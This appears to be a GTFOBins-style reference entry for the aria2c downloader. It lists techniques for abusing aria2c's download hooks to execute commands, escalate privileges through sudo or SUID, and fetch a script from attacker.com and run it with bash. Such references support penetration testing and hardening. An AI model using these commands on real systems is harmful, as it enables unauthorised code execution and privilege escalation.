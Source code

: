 description: Note that the subprocess is immediately sent to the background.
functions:
  command:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        aria2c --on-download-error=$TF http://x
    - description: The remote file `aaaaaaaaaaaaaaaa` (must be a string of 16 hex digit) contains the shell script. Note that said file needs to be written on disk in order to be executed. `--allow-overwrite` is needed if this is executed multiple times with the same GID.
      code: aria2c --allow-overwrite --gid=aaaaaaaaaaaaaaaa --on-download-complete=bash http://attacker.com/aaaaaaaaaaaaaaaa
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo aria2c --on-download-error=$TF http://x
  limited-suid:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        ./aria2c --on-download-error=$TF http://x
---
